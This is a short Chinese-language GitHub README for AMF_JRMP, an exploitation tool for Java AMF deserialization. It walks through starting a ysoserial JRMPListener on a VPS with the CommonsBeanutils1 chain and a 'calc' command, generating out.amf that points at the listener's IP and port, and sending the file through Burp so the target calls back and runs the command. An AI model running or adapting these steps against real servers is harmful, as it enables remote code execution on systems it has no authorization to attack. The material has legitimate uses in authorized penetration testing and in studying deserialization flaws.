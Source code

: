 # AMF_JRMP
改造一个基于jrmp的AMF反序列化利用工具 

只适用于出网的机器

将ysoserial放到服务器/vps中，先启动一个jrmp，利用链根据实际情况改
```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 CommonsBeanutils1 calc
```

然后本地运行这个AMFpoc_JRMP.jar
```bash
java -jar AMFpoc_JRMP.jar 起服务的ip 起服务的端口
```
比如这样
```bash
java -jar AMFpoc_JRMP.jar 114.114.114.114 1234
```
他会生成一个out.amf,使用burp右键选择pasted from file，选这个out.amf发送就可以触发

有关这个反序列化的介绍，请看这个大佬的文章
https://www.mi1k7ea.com/2019/12/07/Java-AMF3反序列化漏洞/
